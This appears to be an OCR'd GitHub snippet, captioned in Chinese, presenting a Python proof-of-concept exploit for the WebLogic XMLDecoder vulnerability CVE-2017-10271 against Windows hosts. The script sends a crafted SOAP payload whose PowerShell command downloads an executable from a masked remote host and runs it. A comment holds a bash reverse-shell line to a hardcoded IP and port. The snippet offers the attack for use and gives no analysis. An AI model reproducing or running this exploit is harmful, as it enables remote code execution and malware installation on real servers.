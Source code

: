 ```
if __name__ == '__main__':
    url = '192.168.136.130'
    wls = WebLogic(url)
    wls.xmlDecoder()
```

针对Windows系统weblogic的远程下载执行POC：

```
import requests

class WebLogic:
    def __init__(self, url):
        if '://' not in url:
            url = 'http://' + url
        self.url = url.strip('/')

    def xmlDecoder(self):
        """Version:10.3.6.0.0/12.1.3.0.0/12.2.1.1.0
        CVE-2017-10271
        """
        headers = {
            "Content-Type":"text/xml;charset=UTF-8",
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }

        # <string>bash -i &gt;&amp; /dev/tcp/192.168.1.133/4444 0&gt;&amp;1</string>
        xml = """
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
            <soapenv:Header>
                <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                    <java version="1.4.0" class="java.beans.XMLDecoder">
                        <void class="java.lang.ProcessBuilder">
                            <array class="java.lang.String" length="3">
                                <void index="0"> 
                                	<string>powershell</string>
                                </void>
                                <void index="1">
                                	<string>-Command</string>
                                </void>
                                <void index="2">
                                	<string>(New-Object System.Net.WebClient).DownloadFile('http://******/***.exe','***.exe');(New-Object -com Shell.Application).ShellExecute('***.exe');</string>
								</void>
                            </array>
                        <void method="start"/></void>
                    </java>
                </work:WorkContext>
            </soapenv:Header>
        <soapenv:Body/>
        </soapenv:Envelope>"""
        req = requests.post(self.url+":7001/wls-wsat/CoordinatorPortType", headers=headers, data=xml)
        if req.status_code == 500 :
            print('[+] WebLogic xml decoder ')
            # print(req.text)

if __name__ == '__main__':
    url = '192.168.136.130'
    wls = WebLogic(url)
    wls.xmlDecoder()
```

---